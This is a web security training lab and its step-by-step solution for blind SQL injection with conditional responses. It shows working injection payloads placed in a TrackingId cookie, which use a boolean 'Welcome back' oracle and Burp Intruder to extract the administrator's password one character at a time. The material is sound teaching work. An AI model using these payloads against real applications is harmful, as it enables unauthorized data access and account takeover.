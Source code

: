 # Lab: Blind SQL injection with conditional responses

### PRACTITIONER

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 


### Solution

1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the <code>TrackingId</code> cookie. For simplicity, let's say the original value of the cookie is <code>TrackingId=xyz</code>.

2. Modify the <code>TrackingId</code> cookie, changing it to: <code>TrackingId=xyz' AND '1'='1</code>. Verify that the "Welcome back" message appears in the response.

3. Now change it to: <code>TrackingId=xyz' AND '1'='2</code>. Verify that the "Welcome back" message does not appear in the response. This demonstrates how you can test a single boolean condition and infer the result.

4. Now change it to: <code>TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a</code>. Verify that the condition is true, confirming that there is a table called <code>users</code>.

5. Now change it to: <code>TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a</code>. Verify that the condition is true, confirming that there is a user called <code>administrator</code>.

6. The next step is to determine how many characters are in the password of the <code>administrator</code> user. To do this, change the value to: <code>TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)&gt;1)='a</code>. This condition should be true, confirming that the password is greater than 1 character in length.

7. Send a series of follow-up values to test different password lengths. Send: <code>TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)&gt;2)='a</code>. Then send: <code>TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)&gt;3)='a</code>. And so on. You can do this manually using <a href="/burp/documentation/desktop/tools/repeater">Burp Repeater</a>, since the length is likely to be short. When the condition stops being true (i.e. when the "Welcome back" message disappears), you have determined the length of the password, which is in fact 20 characters long.

8. After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use <a href="/burp/documentation/desktop/tools/intruder">Burp Intruder</a>. Send the request you are working on to Burp Intruder, using the context menu.

9. In the Positions tab of Burp Intruder, clear the default payload positions by clicking the "Clear §" button.

10. In the Positions tab, change the value of the cookie to: <code>TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a</code>. This uses the <code>SUBSTRING()</code> function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.

11. Place payload position markers around the final <code>a</code> character in the cookie value. To do this, select just the <code>a</code>, and click the "Add §" button. You should then see the following as the cookie value (note the payload position markers): <code>TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§</code>

12. To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. You can assume that the password contains only lowercase alphanumeric characters. Go to the Payloads tab, check that "Simple list" is selected, and under "Payload Options" add the payloads in the range a - z and 0 - 9. You can select these easily using the "Add from list" drop-down.

13. To be able to tell when the correct character was submitted, you'll need to grep each response for the expression "Welcome back". To do this, go to the Options tab, and the "Grep - Match" section. Clear any existing entries in the list, and then add the value "Welcome back".

14. Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.

15. Review the attack results to find the value of the character at the first position. You should see a column in the results called "Welcome back". One of the rows should have a tick in this column. The payload showing for that row is the value of the character at the first position.

16. Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from 1 to 2. You should then see the following as the cookie value: <code>TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a</code>

17. Launch the modified attack, review the results, and note the character at the second offset.

18. Continue this process testing offset 3, 4, and so on, until you have the whole password.

19. In your browser, click "My account" to open the login page. Use the password to log in as the <code>administrator</code> user.


#### Note
```
For more advanced users, the solution described here could be made more elegant in various ways. For example, instead of iterating over every character, you could perform a binary search of the character space. Or you could create a single Intruder attack with two payload positions and the "Cluster bomb" attack type, and work through all permutations of offsets and character values.
```